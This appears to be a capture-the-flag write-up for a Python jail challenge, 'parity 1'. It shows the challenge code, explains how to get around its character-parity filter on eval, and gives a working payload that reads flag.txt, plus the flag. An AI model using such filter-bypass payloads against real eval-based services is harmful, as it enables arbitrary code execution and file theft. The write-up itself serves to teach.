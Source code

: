 # parity 1

## Challenge Code
```py
inp = input("> ")

for i, v in enumerate(inp):
    if not (ord(v) < 128 and i % 2 == ord(v) % 2):
        print('bad')
        exit()

eval(inp)
```

## Objective

Send input to read the contents of `flag.txt` while adhering to the server's input validation rules.

## Observations

- The server passes our input to `eval`, meaning we can potentially execute arbitrary Python code to print the flag.
- However, the server only accepts input where **the parity of each ASCII character matches the parity of its index**. In other words, characters at *even* indices must have *even* [ASCII values](https://www.asciitable.com/), and characters at *odd* indices must have *odd* ASCII values.
- Therefore, our final payload must be valid Python code and also adhere to these constraints.

## Solution

1. The obvious approach is to try `print(open("flag.txt").read())`. However, this fails the parity check:
    1. `p` is at index 0 (even) and has an ASCII value of 112 (even), which is valid.
    2. `r` is at index 1 (odd) and has an ASCII value of 114 (even), which is invalid.

2. We can work around these limitations by encoding our payload character-by-character in a way which preserves the correct parity. Spelled normally (and contiguously), words like `read` and `print` violate the parity rule, but we can build these words more dynamically (and in a way which preserves parity) using a combination of quoting styles and whitespace.
    1. Notice that `"` has even parity and `'` has odd parity. This allows us to surround any other character with "valid" quotes.
    2. The `space` and `tab` characters also have even and odd parity, respectively, which.
    3. The final payload calls `eval` again (which itself follows the alternating parity rules) to execute the constructed command.

## Payload

The tab characters aren't perfectly replicated here in markdown, but this is the general payload:
```
 eval    (     'p' + 'r' +     "i"     + 'n' + 't' + '(' +     "o"     + 'p' +     "e"     + 'n' + '(' + '"' + 'f' + 'l' +     "a"     +     "g"     + '.' + 't' + 'x' + 't' + '"' +     ")"     + '.' + 'r' +     "e"     +     "a"     + 'd' + '(' +     ")"     +     ")")
```

## Flag

`jail{parity_41f5812e8c0cd9}`
